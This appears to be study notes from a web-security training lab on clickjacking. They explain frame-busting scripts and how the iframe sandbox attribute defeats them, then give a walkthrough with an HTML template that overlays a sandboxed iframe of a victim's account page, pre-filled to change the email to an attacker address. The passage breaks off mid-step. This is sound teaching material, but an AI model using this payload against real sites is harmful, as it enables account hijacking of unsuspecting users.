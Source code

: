 ## Frame busting scripts
Clickjacking attacks are possible whenever websites can be framed. 
=>
preventative techniques are based upon restricting the framing capability for websites.

A common client-side protection enacted through the web browser is to:
- use frame busting or frame breaking scripts. 

These can be implemented via:
- proprietary browser JavaScript add-ons or extensions such as NoScript. 

Scripts are often crafted so that they perform some or all of the following behaviors:
- check and enforce that the current application window is the main or top window,
- make all frames visible,
- prevent clicking on invisible frames,
- intercept and flag potential clickjacking attacks to the user.

Frame busting techniques are often:
- browser and platform specific 
- because of the flexibility of HTML they can usually be circumvented by attackers

As frame busters are JavaScript:
- then the browser's security settings may prevent their operation 
- or indeed the browser might not even support JavaScript

An effective attacker workaround against frame busters is to:
- use the HTML5 iframe `sandbox` attribute. 
- When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted:
  =>
	- the frame buster script can be neutralized 
		- as the iframe cannot check whether or not it is the top window:
		  `<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`
		  
Both the `allow-forms` and `allow-scripts` values:
- permit the specified actions within the iframe but top-level navigation is disabled

This inhibits frame busting behaviors:
- while allowing functionality within the targeted site

### Clickjacking with a frame buster script
1. Log in to the account on the target website.
2. Go to the exploit server and paste the following HTML template into the "Body" section:
```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
1. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID so that the URL of the target website's user account page, which contains the "Update email" form.